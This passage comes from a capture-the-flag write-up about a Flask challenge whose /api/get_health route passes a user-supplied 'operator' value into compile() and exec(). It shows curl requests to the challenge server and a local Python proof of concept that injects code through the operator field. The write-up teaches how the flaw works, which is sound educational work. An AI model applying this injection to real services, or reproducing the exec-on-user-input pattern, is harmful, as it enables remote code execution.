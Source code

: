 **In the `/api/get_health` route, it accepts POST request:**

- If the request is not in JSON format, returns status 400
- **It needs 3 parameters: `current_health`, `attack_power`, `operator`**
- If the request has no the above 3 parameters, returns status 400
- Then, try to take those 3 parameter values as input, and **returns a code object**, which is **ready to be executed and which can later be executed by the `exec()` function**
- **Run the above code object**

**Let's take a closer look at the following code:**
```py
web = Blueprint('web', __name__)
api = Blueprint('api', __name__)
###
###
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
```

Hmm... The `current_health` value will be an integer, **`operator` will be a string**, `attack_power` will be an integer.

**What if I parse the `operator` value as a malicious code, do I get remote code execution??**

**Normal POST request:**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# curl http://157.245.42.104:30611/api/get_health -X POST -H "Content-Type: application/json" -d '{"current_health":"100","attack_power":"0","operator":"-"}'
{"message":100}
```

**Malicious POST request:**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# curl http://157.245.42.104:30611/api/get_health -X POST -H "Content-Type: application/json" -d '{"current_health":"100","attack_power":"0","operator":"test"}'
{"message":"Something Went Wrong!"}
```

Hmm... It shows us status 500.

**After some local testing, I can execute any code!**
```py
#!/usr/bin/env python3

def count():
	current_health = 0
	operator = ",print('hello'),"
	attack_power = 0

	result = {}

	code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
	exec(code, result)
	
	return result
	
if __name__ == '__main__':
	print(count())
```
